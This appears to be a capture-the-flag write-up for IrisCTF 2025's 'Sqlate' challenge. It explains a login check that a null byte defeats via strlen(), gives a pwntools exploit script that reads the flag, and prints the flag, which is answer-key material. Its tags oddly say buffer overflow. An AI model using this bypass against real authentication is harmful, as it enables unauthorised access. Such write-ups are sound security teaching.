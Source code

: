 ```yaml
---
title: "Sqlate"
date: "2025-01-12"
ctf: "IrisCTF 2025"
category: "pwn"
difficulty: "Easy"
points: 50
tags: ["pwn", "binary", "buffer-overflow"]
author: "Tham Le"
solved: true
---
```


# Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`
